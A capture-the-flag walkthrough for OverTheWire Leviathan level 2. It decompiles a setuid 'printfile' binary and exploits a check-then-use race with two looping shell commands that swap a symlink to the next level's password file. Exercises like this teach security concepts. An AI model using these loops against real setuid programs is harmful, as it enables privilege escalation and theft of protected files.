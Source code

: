 We will start by listing the contents of the home directory.
```bash
leviathan2@gibson:~$ ll
total 36
drwxr-xr-x  2 root       root        4096 Oct  5  2023 ./
drwxr-xr-x 83 root       root        4096 Oct  5  2023 ../
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5  2023 printfile*
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```
We can see an executable named `printfile`. Lets run it and see what happens.
```bash
leviathan2@gibson:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```
We need to give a file as argument. Since we know that all the passwords for leviathan are stored in `/etc/leviathan_pass` we should find the file called `leviathan3` and give it as an argument.
```bash
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
As it seems we cant have this file. 
So let's just make a copy of this executable on our local machine by converting it first to base64.
```bash
leviathan2@gibson:~$ base64 printfile
```
Then paste the base64 characters on a file with `.base64` suffix and then decode it to binary with the name you want.
```bash
User@Github:~$ nano printfile.base64
User@Github:~$ base64 -d printfile.base64 > printfile
```
Now that we have the executable we can use [DogBolt](https://dogbolt.org/) to decompile the program and see what we need to do.

```C
//----- (080491E6) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v4; // ebx
  __uid_t v5; // eax
  const char **v6; // [esp+0h] [ebp-21Ch]
  char s[512]; // [esp+10h] [ebp-20Ch] BYREF
  unsigned int v8; // [esp+210h] [ebp-Ch]
  int *p_argc; // [esp+214h] [ebp-8h]

  p_argc = &argc;
  v6 = argv;
  v8 = __readgsdword(0x14u);
  if ( argc > 1 )
  {
    if ( access(argv[1], 4) )
    {
      puts("You cant have that file...");
      return 1;
    }
    else
    {
      snprintf(s, 0x1FFu, "/bin/cat %s", v6[1]);
      v4 = geteuid();
      v5 = geteuid();
      setreuid(v5, v4);
      system(s);
      return 0;
    }
  }
  else
  {
    puts("*** File Printer ***");
    printf("Usage: %s filename\n", *v6);
    return -1;
  }
}
```
This program prints the contents of a file specified by the user if the user has read access to it. If no file is specified, it prints usage instructions.
Lets navigate to the `/etc/leviathan_pass` path to see who can read the file `leviathan3`.
```bash
leviathan2@gibson:/etc/leviathan_pass$ ll
total 48
drwxr-xr-x   2 root       root        4096 Oct  5  2023 ./
drwxr-xr-x 109 root       root       12288 Oct  5  2023 ../
-r--------   1 leviathan0 leviathan0    11 Oct  5  2023 leviathan0
-r--------   1 leviathan1 leviathan1    11 Oct  5  2023 leviathan1
-r--------   1 leviathan2 leviathan2    11 Oct  5  2023 leviathan2
-r--------   1 leviathan3 leviathan3    11 Oct  5  2023 leviathan3
-r--------   1 leviathan4 leviathan4    11 Oct  5  2023 leviathan4
-r--------   1 leviathan5 leviathan5    11 Oct  5  2023 leviathan5
-r--------   1 leviathan6 leviathan6    11 Oct  5  2023 leviathan6
-r--------   1 leviathan7 leviathan7    11 Oct  5  2023 leviathan7
```
It seems only `leviathan3` has the right to read it. 
But since we have a file that uses the `/bin/cat` command we can exploit it. 
We will perform an attack called [TOCTTOU] attack or Race Condition timing attack. 
In a TOCTTOU attack, an attacker exploits the timing and order of events to gain unauthorized access to a resource or execute unintended operations. These attacks take advantage of a time differential between when a resource is checked (for example, to see if it is available) and the time when it is used.
We need 2 terminals for this to work.
On the first terminal we will execute the `printfile` indefinetely and will filter any error messages and on the second terminal we will make a symbolic link to the real `leviathan3` in the temp directory we made, then remove it, then make a regular file named `leviathan3` and then remove the regular file.
Lets start by creating the temp directory and giving it read write permissions.
```bash
leviathan2@gibson:~$ cd $(mktemp -d)
leviathan2@gibson:/tmp/tmp.uNKevxoo8G$ chmod 755 .
```
And now we run a while loop executing the `printfile`.
```bash
while true; do /home/leviathan2/printfile $(pwd)/leviathan3 2>&1 | egrep -v "You cant have that file...|/bin/cat: /tmp/tmp.uNKevxoo8G/leviathan3: No such file or directory" ; done
```
Now to our second terminal: We navigate on the directory of the first terminal:
```bash
leviathan2@gibson:~$ cd /tmp/tmp.uNKevxoo8G
```
And run a while loop that will make the symbolic link to the real `leviathan3` in the temp directory we made, then remove it, then make a regular file named `leviathan3` and then remove the regular file.
```bash
leviathan2@gibson:/tmp/tmp.uNKevxoo8G$ while true; do ln -sf /etc/leviathan_pass/leviathan3 leviathan3; rm -f leviathan3
; touch leviathan3; rm leviathan3; done
```
And now the output of our first terminal should be:
```
Q0G8j.....
Q0G8j.....
Q0G8j.....
Q0G8j.....
```
Thats our password for the next level!
